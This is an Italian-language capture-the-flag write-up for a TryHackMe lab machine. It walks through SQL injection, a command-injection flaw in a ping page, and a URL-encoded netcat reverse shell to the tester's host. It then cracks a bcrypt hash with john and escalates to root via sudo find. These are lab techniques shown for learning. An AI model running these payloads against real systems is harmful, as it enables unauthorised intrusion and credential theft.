








# Operation Promotion

LINK: [https://tryhackme.com/room/operationpromotion](https://tryhackme.com/room/operationpromotion)
IP: 10.129.153.241

Iniziamo ad enumerare i servizi:

```bash
kali@kali:~$ sudo nmap -sS -sV -sC -p- 10.129.153.241
[sudo] password for kali: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-04 04:34 -0400
Nmap scan report for 10.129.153.241
Host is up (0.048s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b3:c4:73:d7:83:8c:d5:b6:fb:7d:15:dd:e1:bb:b2:5b (ECDSA)
|_  256 42:c7:bc:82:dd:33:37:5c:80:66:ca:8a:45:46:b8:50 (ED25519)
80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-title: RecruitCorp - Careers Portal
|_http-server-header: Apache/2.4.58 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-09-04T08:35:00
|_  start_date: N/A
|_nbstat: NetBIOS name: RECRUITCORP, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.93 seconds

```

Quindi sono aperti 4 servizi

| Servizi | Porta | Versione | Note |
| --- | --- | --- | --- |
| SSH | 22 | OpenSSH 9.6p1 |  |
| HTTP | 80 | Apache httpd 2.4.58 |  |
| SMB | 139 | SMBD 4 | SMB sopra **NetBIOS (vecchia versione)** |
| SMB | 445 | SMBD 4 | SMB **direttamente su TCP**, senza NetBIOS |

Proviamo a vedere dentro al SAMBA se c’è qualcosa di interessante

```bash
kali@kali:~/Desktop/CTF/OperationPromotion$ smbclient //10.129.153.241/public -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May  9 18:40:25 2026
  ..                                  D        0  Sat May  9 18:40:25 2026
  README.txt                          N       92  Sat May  9 18:40:25 2026

                40581564 blocks of size 1024. 37365756 blocks available
smb: \> get README.txt 
getting file \README.txt of size 92 as README.txt (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \> ls -al
NT_STATUS_NO_SUCH_FILE listing \-al
smb: \> ls -a
NT_STATUS_NO_SUCH_FILE listing \-a
smb: \> /exit
/exit: command not found
smb: \> /bye
/bye: command not found
smb: \> bye
bye: command not found
smb: \> ^C
                                                                                                                    
kali@kali:~/Desktop/CTF/OperationPromotion$ ls                                  
README.txt
                                                                                                                    
kali@kali:~/Desktop/CTF/OperationPromotion$ cat README.txt       
This share is reserved for future internal file distribution.
Nothing to see here yet.
- IT

```

Procediamo con web enumeration per trovare percorsi nascosti.

```bash
kali@kali:~$ gobuster dir -u http://10.129.153.241/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x ".php,.txt,.bak"
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.153.241/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              bak,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 279]
.hta.php             (Status: 403) [Size: 279]
.hta.txt             (Status: 403) [Size: 279]
.hta.bak             (Status: 403) [Size: 279]
.htaccess            (Status: 403) [Size: 279]
.htaccess.php        (Status: 403) [Size: 279]
.htaccess.txt        (Status: 403) [Size: 279]
.htpasswd            (Status: 403) [Size: 279]
.htaccess.bak        (Status: 403) [Size: 279]
.htpasswd.php        (Status: 403) [Size: 279]
.htpasswd.txt        (Status: 403) [Size: 279]
.htpasswd.bak        (Status: 403) [Size: 279]
admin                (Status: 301) [Size: 316] [--> http://10.129.153.241/admin/]
config               (Status: 403) [Size: 279]
index.php            (Status: 200) [Size: 1620]
index.php            (Status: 200) [Size: 1620]
robots.txt           (Status: 200) [Size: 32]
robots.txt           (Status: 200) [Size: 32]
server-status        (Status: 403) [Size: 279]
Progress: 19000 / 19000 (100.00%)
===============================================================
Finished
===============================================================
                                                                                                                    
kali@kali:~$ 

```

Il path `/config` sembra interessante, indaghiamoci meglio.

In `/admin` è presente una SQLi se mettiamo come user `' OR 1=1;--` e una qualsiasi password si apre la pagina admin!
Dove troviamo subito un API interessante `/lookup.php?id=1`   che mostra `ID, username, role, notes` dell’utente con `id=1` . Creiamo uno script per enumerare più utenti possibili.

`kali@kali:~/Desktop/CTF/OperationPromotion$ nano enum_user.py`

```bash
import requests
from bs4 import BeautifulSoup

url = "http://10.129.153.241/admin/users/lookup.php"

session = requests.Session()
session.cookies.set("PHPSESSID", "ts5lssftv5ab417slipku95qgh")

for user_id in range(1, 11):
    response = session.get(url, params={"id": user_id})
    soup = BeautifulSoup(response.text, "html.parser")

    rows = soup.find_all("tr")

    data = {}
    for row in rows:
        cells = row.find_all(["th", "td"])
        if len(cells) == 2:
            data[cells[0].get_text(strip=True)] = cells[1].get_text(strip=True)

    print(
        f"ID: {data.get('ID')} | "
        f"Username: {data.get('Username')} | "
        f"Role: {data.get('Role')} | "
        f"Notes: {data.get('Notes')}"
    )
```

Otteniamo i 9 utenti registrati

```bash
kali@kali:~/Desktop/CTF/OperationPromotion$ python enum_user.py
ID: 1 | Username: admin | Role: admin | Notes: Primary admin account.
ID: 2 | Username: mvasquez | Role: recruiter | Notes: Owns the EMEA pipeline.
ID: 3 | Username: tparker | Role: recruiter | Notes: Owns the AMER pipeline.
ID: 4 | Username: lhayes | Role: analyst | Notes: Reporting only.
ID: 5 | Username: kchen | Role: recruiter | Notes: Out on leave.
ID: 6 | Username: rdavis | Role: analyst | Notes: Reporting only.
ID: 7 | Username: sysmaint | Role: system | Notes: Service account for /admin/sysmaint-checks/ping.php. Do not disable.
ID: 8 | Username: jbailey | Role: recruiter | Notes: New starter Q3.
ID: 9 | Username: aokafor | Role: recruiter | Notes: APAC.
ID: None | Username: None | Role: None | Notes: None
```

Guardando meglio l’API sembra soffrire di SQLi [`http://10.129.153.241/admin/users/lookup.php?id=1%27--%20-`](http://10.129.153.241/admin/users/lookup.php?id=1%27--%20-) mi restituisce le informazioni di `user` con `id=1`

Ho quindi scelto la strada di SQLmap 

```bash
kali@kali:~/Desktop/CTF/OperationPromotion$ sqlmap -u "http://10.129.153.241/admin/users/lookup.php?id=1" \
  --cookie="PHPSESSID=ts5lssftv5ab417slipku95qgh" \
  -p id \
  --batch

[....]
[06:11:06] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'                                                                                                             
```

Siamo sulla strada sbagliata, forse.

Facciamo un test

| Payload | Risultato |
| --- | --- |
| ?id=1 | User ID=1 |
| ?id=1z | User ID=1 |
| ?id=2 | User ID=2 |
| ?id=2abc | User ID=2 |
| ?id=-1 | User not found |
| ?id=999 | User not found |
| ?id=0 | User not found |

Provo nel frattempo a lanciare una scansione delle sottocartelle e file di `/admin` 

```bash
kali@kali:~/Desktop/CTF/OperationPromotion$ gobuster dir -u http://10.129.153.241/admin/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -c "PHPSESSID=ts5lssftv5ab417slipku95qgh" -x ".php,.txt,.bak"
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.153.241/admin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] Cookies:                 PHPSESSID=ts5lssftv5ab417slipku95qgh
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 279]
.hta.php             (Status: 403) [Size: 279]
.hta.txt             (Status: 403) [Size: 279]
.htaccess            (Status: 403) [Size: 279]
.hta.bak             (Status: 403) [Size: 279]
.htaccess.php        (Status: 403) [Size: 279]
.htpasswd            (Status: 403) [Size: 279]
.htaccess.bak        (Status: 403) [Size: 279]
.htaccess.txt        (Status: 403) [Size: 279]
.htpasswd.php        (Status: 403) [Size: 279]
.htpasswd.bak        (Status: 403) [Size: 279]
.htpasswd.txt        (Status: 403) [Size: 279]
dashboard.php        (Status: 200) [Size: 1300]
index.php            (Status: 302) [Size: 0] [--> /admin/dashboard.php]
index.php            (Status: 302) [Size: 0] [--> /admin/dashboard.php]
logout.php           (Status: 302) [Size: 0] [--> /admin/]
users                (Status: 301) [Size: 322] [--> http://10.129.153.241/admin/users/]
Progress: 19000 / 19000 (100.00%)
===============================================================
Finished
===============================================================

```

Sono un idiota.. la soluzione è sempre stata sotto i nostri occhi…
Utente con ID=7 ha queste caratteristiche





Provando **`http://10.129.153.241/admin/sysmaint-checks/ping.php?host=1.1.1.1`**

Effettivamente fa un ping verso 1.1.1.1



E secondo me il programma farà una cosa del genere `shell_exec("ping " . $_GET["host"]);` quindi potrebbe concatenare i comandi, proviamo…

`GET /admin/sysmaint-checks/ping.php?host=localhost%3b+whoami` 



Abbiamo appurato che possiamo concatenare più comandi, viene naturale quindi instaurare una reverse shell. Usiamo [revshells](https://www.revshells.com/)



```bash
kali@kali:~/Desktop/CTF/OperationPromotion$ curl 'http://10.129.135.107/admin/sysmaint-checks/ping.php?host=localhost%3B+rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.163.29%209001%20%3E%2Ftmp%2Ff' \                           
  -b "PHPSESSID=u4ilt72uigjtju53l22mt7ff6g"
```

```bash
kali@kali:~/Desktop/CTF/OperationPromotion$ nc -lvnp 9001
listening on [any] 9001 ...

connect to [192.168.163.29] from (UNKNOWN) [10.129.135.107] 40980
bash: cannot set terminal process group (880): Inappropriate ioctl for device
bash: no job control in this shell
www-data@recruitcorp:/var/www/html/admin/sysmaint-checks$ 
```

Finalmente siamo dentro! 

```bash
www-data@recruitcorp:/var/www/html/admin/sysmaint-checks$ cat /var/www/html/config/db.conf 
# RecruitCorp application database config
# Pulled out of source control - DO NOT COMMIT.
db_host=localhost
db_name=recruitcorp
db_user=jford
db_pass_hash=$2b$10$QzkXmGndA2cQLozO3xAN6eWKrl6ZXyzhYTJNF67exOmTmN5oVSEfq
db_engine=sqlite3
www-data@recruitcorp:/var/www/html/admin/sysmaint-checks$ 
```

Cerchiamo il database e proviamo ad entrarci





Qui mi sono bloccato e ho usato un LLM per aiutarmi. La risposta è imbarazzante. nella pagina principale si legge `Spring 2026` si parte quindi da questa cosa per creare varie combinazioni della parola per formare una possibile password 


```bash
kali@kali:~/Desktop/CTF/OperationPromotion$ john hash.txt --wordlist=spring2026.txt --rules=dive
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:07 0.85% (ETA: 07:35:23) 0g/s 111.2p/s 111.2c/s 111.2C/s Spri6..S620
0g 0:00:00:11 1.32% (ETA: 07:35:35) 0g/s 113.7p/s 113.7c/s 113.7C/s Spr0ng2i26..Spring20296
0g 0:00:00:15 1.81% (ETA: 07:35:29) 0g/s 114.6p/s 114.6c/s 114.6C/s Spring20267..Sprin_2026
spring2026!      (?)     
1g 0:00:01:09 DONE (2026-09-04 07:22) 0.01447g/s 112.1p/s 112.1c/s 112.1C/s **spring2026!**..p�ing2026S
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

> Questa parte non aveva senso…
> 

La password è `spring2026!`

```bash
kali@kali:~$ ssh jford@10.129.147.255
The authenticity of host '10.129.147.255 (10.129.147.255)' can't be established.
ED25519 key fingerprint is: SHA256:Do9kImBHVY8LmB8FJ8Dc+kDO/HgJ7kvUU+wcxGBhVLE
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.147.255' (ED25519) to the list of known hosts.
(jford@10.129.147.255) Password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.17.0-1015-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Sep  4 13:24:56 UTC 2026

  System load:  0.24              Temperature:           -273.1 C
  Usage of /:   7.9% of 38.70GB   Processes:             127
  Memory usage: 19%               Users logged in:       0
  Swap usage:   0%                IPv4 address for ens5: 10.129.147.255

 * Ubuntu Pro delivers the most comprehensive open source security and
   compliance features.

   https://ubuntu.com/aws/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

jford@recruitcorp:~$ ls
user.txt
jford@recruitcorp:~$ cat user.txt 
THM{*****************************}
```

Ora che siamo `jford` dobbiamo fare priveleage escalation verso root.

```jsx
jford@recruitcorp:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

Non restituisce nulla di interessante e rilevante

```bash
jford@recruitcorp:~$ sudo -l
Matching Defaults entries for jford on recruitcorp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jford may run the following commands on recruitcorp:
    (root) NOPASSWD: /usr/bin/find

```

Il binario `/usr/bin/find` viene eseguito con root e non c’è bisogno della password sudo!

Quindi guardando [GTFOBins](https://gtfobins.org/gtfobins/find/#shell), possiamo aprire una shell come root semplicemente con j`ford@recruitcorp:~$ sudo find . -exec /bin/sh \; -quit` questo perchè sudo non richiede la password per il binario find.

